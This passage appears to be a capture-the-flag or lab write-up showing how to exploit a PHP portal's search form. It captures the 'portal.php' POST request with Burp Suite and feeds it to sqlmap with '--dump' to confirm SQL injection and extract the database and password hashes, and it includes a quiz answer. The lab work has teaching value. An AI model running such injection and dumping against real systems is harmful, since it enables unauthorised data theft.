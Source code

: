 Successfully logging into the service directs us to the following page:
![](portal-login-dash.png)

> When you've logged in, what page do you get redirected to?
>
> Answer: `portal.php`

Since the target is vulnerable to SQLi, we can now use SQLMap for further recon...


Using Burpsuite and determining the request sent by the browser when accessing the `portal.php` page:
```http
POST /portal.php HTTP/1.1
Host: TARGET_IP
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://TARGET_IP
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://TARGET_IP/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=kfd3hokcd5krmlmrofgs4q45q7
Connection: close

searchitem=asd
```

We can save this to a file and then pass this to SQLMap to authenticate user session:
```shell-session
$ sqlmap -r portal-request.txt --dbms=mysql --dump

...
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

...

POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

...

do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y

...

```